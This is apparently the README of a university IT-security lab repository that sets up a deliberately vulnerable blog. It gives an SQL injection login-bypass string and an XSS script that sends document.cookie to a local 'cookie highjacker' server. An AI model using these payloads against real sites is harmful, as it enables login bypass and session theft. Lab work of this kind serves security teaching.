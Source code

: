 # hse-ss22-itsec-lab-1

## Setup

### Database
Run ````docker-compose up```` to start the MySQL Database. On startup it will be populated with the schema.sql and data.sql scripts.

SQL Injection Attack vector ````' OR 1=1 AND username='Admin';-- ````

### Application
The Actual Application which runs the Blog can be started with 
* ````npm run dev```` which will apply code changes automatically.
* ````npm start```` which will not apply any code changes.

### Cookie Highjacker
The Cookie Highjacker is a simple implementation of an express server which only accepts the root route and prints the highjacked cookie to the console.

Script to sniff the cookie.
````
<script>
    alert('Smells like XSS');
    fetch("http://localhost:7000/", {
        method: "POST", headers: {"Content-Type": "application/json"}, body: JSON.stringify({cookie: document.cookie})
    });
</script>
````

